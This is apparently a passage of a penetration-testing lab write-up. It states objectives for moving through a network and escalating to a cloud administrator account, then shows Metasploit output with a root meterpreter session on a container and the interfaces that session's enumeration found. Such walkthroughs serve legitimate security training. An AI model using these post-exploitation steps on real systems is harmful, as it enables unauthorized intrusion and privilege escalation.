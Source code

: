 Objectives:
- Build a greater understanding of our target environment
- Understand the other services on the network
- Exploit other services through our initial entry point
- Escalate to an administrator account in the cloud provider

### Enumerating Production Container
 Interacting with the New Session
 ```hlt:1,10
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                      Information          Connection
  --  ----  ----                      -----------          ----------
  2         meterpreter python/linux  root @ 6699d104d6c5  10.0.1.54:4488 -> 198.18.53.73:37604 (172.18.0.4)

msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...
```

Hostname of target is 6699d104d6c5 & username is root

Running `ifconfig` in meterpreter shell
```hlt:1,19,29
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP LOOPBACK RUNNING
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface 41
============
Name         : eth1
Hardware MAC : 02:42:ac:1e:00:03
MTU          : 1500
Flags        : UP BROADCAST RUNNING MULTICAST
IPv4 Address : 172.30.0.3
IPv4 Netmask : 255.255.0.0


Interface 43
============
Name         : eth0
Hardware MAC : 02:42:ac:12:00:04
MTU          : 1500
Flags        : UP BROADCAST RUNNING MULTICAST
IPv4 Address : 172.18.0.4
IPv4 Netmask : 255.255.0.0
```
- Two network interfaces
